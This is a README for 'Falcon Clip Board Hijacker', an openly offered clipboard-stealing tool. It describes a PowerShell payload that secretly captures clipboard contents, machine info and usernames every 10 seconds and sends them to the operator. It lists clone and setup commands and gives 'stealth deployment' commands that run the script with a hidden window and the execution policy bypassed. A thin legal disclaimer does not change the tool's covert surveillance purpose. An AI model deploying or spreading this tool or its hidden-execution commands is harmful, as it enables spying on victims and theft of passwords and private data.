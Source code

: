 # Falcon Clip Board Hijacker 🦅

<p align="center">
    <img src="https://raw.githubusercontent.com/rgsecteam/rgsectm/refs/heads/main/image/thumbinels/falcon.png">
</p>
<img src="https://img.shields.io/badge/License-MIT-blue.svg">
# What is Falcon-Hijacker?
<p>Falcon Hijacker is a professional clipboard monitoring tool designed for authorized security assessments. It captures real-time clipboard data from target systems through a streamlined bash interface.</p>

## This Tool Tested On :
  - Kali Linux
  - Parrot Sec OS


## 📊 Advanced Monitoring

  - **Live Data Stream:** Real-time clipboard viewing
  - **Structured Logging:** Timestamped entries with metadata
  - **Multiple Targets:** Capture from multiple machines simultaneously
  - **Export Ready:** Clean log format for analysis

## PowerShell Payload (clipboard_logger.ps1)
  - **Frequency:** Checks clipboard every 10 seconds
  - **Data Sent:** Clipboard content + machine info + username
  - **Stealth:** No visible window, error suppression
  - **Persistence:** Runs until manually stopped

## Installing and requirements
<p>This tool require PHP for webserver, and wget for downloading dependencies. First run following command on your terminal</p>

```
apt-get -y install php wget
```

## Installing Falcon:

```
git clone https://github.com/rgsecteam/falcon-hijacker
cd falcon-hijacker
bash falcon.sh
```
## Stealth Deployment:
<p>Run the following command on windows matchin. </p>

```
powershell -NoP -NonI -W h -Exec Bypass .\clipboardhijacker.ps1
```
<p>For Hidden Execution</p>

```
Start-Process powershell -ArgumentList "-WindowStyle Hidden -ExecutionPolicy Bypass -File .\clipboardhijacker.ps1"
```

## Legal & Ethical Notice
By using the materials in this repository you agree to:
- Use the information only for defensive, educational, or research purposes in controlled environments.
- Follow all applicable laws and organizational policies.
- Not distribute or operationalize any malicious code.
- **Do not** use this repository to harm others. Always obtain explicit permission before testing on systems you do not own.

#### For More Video subcribe <a href="http://youtube.com/@RGSecurityTeam">RGSecurityTeam YouTube Channel</a>

<p>Falcon-hijacker is inspired by https://github.com/techchipnet/ Big thanks to @techchipnet</p>
